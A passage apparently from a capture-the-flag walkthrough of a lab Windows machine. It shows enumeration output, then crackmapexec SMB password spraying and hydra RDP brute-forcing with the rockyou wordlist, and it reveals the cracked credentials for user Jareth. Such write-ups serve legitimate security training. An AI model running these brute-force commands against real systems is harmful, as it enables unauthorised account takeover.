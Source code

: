 ```bash
[*] User accounts:

  Guest               
  Jareth              
  Administrator       
  DefaultAccount      
  WDAGUtilityAccount  

[*] Network information:

  IP forwarding enabled         : no
  Default TTL                   : 128
  TCP segments received         : 2602
  TCP segments sent             : 567
  TCP segments retrans          : 266
  Input datagrams               : 139581
  Delivered datagrams           : 6087
  Output datagrams              : 935

[REDACTED]
```

> **SMB (Server Message Block)**
> 

`crackmapexec smb $target_ip -u Jareth -p /usr/share/wordlists/rockyou.txt --pass-pol --content` 

```bash
10.10.211.238   445    YEAR-OF-THE-OWL  [+] year-of-the-owl\Jareth:sarah 
```

`smbclient -L $target_ip --user Jareth`

```bash
Password for [WORKGROUP\Jareth]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

```

> **RDP (Remote Desktop Protocol)**
> 

`hydra -l Jareth -P /usr/share/wordlists/rockyou.txt $target_ip rdp`

```bash
[REDACTED] - SAME PASSWORD
```

> **WinRM (Windows Remote Management)**
> 
